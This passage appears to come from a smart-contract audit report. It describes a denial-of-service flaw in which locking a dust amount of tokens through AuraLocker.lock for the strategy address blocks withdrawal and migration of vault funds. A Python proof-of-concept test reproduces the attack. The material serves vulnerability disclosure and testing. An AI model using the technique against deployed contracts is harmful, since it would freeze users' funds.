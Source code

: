 Funds can only be withdrawn (migrated) if the balance in `LOCKER` is fully unlocked.

By locking a small amount of want tokens via `AuraLocker.lock` with the `strategy` address, a malicious individual can cause DoS and prevent withdrawing and migrating funds to the vault.

### Proof of Concept

The following test case will replicate the DoS attack by locking "dust" want tokens for the `strategy` address. This causes `vault.withdrawToVault` to revert.

```python
def test_frontrun_migration(locker, deployer, vault, strategy, want, governance, keeper):
    # Setup
    randomUser = accounts[6]
    snap = SnapshotManager(vault, strategy, "StrategySnapshot")

    startingBalance = want.balanceOf(deployer)
    depositAmount = startingBalance // 2
    assert startingBalance >= depositAmount
    # End Setup

    # Deposit
    want.approve(vault, MaxUint256, {"from": deployer})
    snap.settDeposit(depositAmount, {"from": deployer})

    chain.sleep(15)
    chain.mine()

    vault.earn({"from": keeper})

    chain.snapshot()

    # Test no harvests
    chain.sleep(86400 * 250)  ## Wait 250 days so we can withdraw later
    chain.mine()

    before = {"settWant": want.balanceOf(vault), "stratWant": strategy.balanceOf()}

    strategy.prepareWithdrawAll({"from": governance})

    want.approve(locker, 1, {"from": deployer})
    locker.lock(strategy, 1, { "from": deployer }) # Donate "dust" want tokens to strategy

    vault.withdrawToVault({"from": governance}) # @audit-info reverts with "You have to wait for unlock or have to manually rebalance"

    after = {"settWant": want.balanceOf(vault), "stratWant": strategy.balanceOf()}

    assert after["settWant"] > before["settWant"]
    assert after["stratWant"] < before["stratWant"]
    assert after["stratWant"] == 0
```
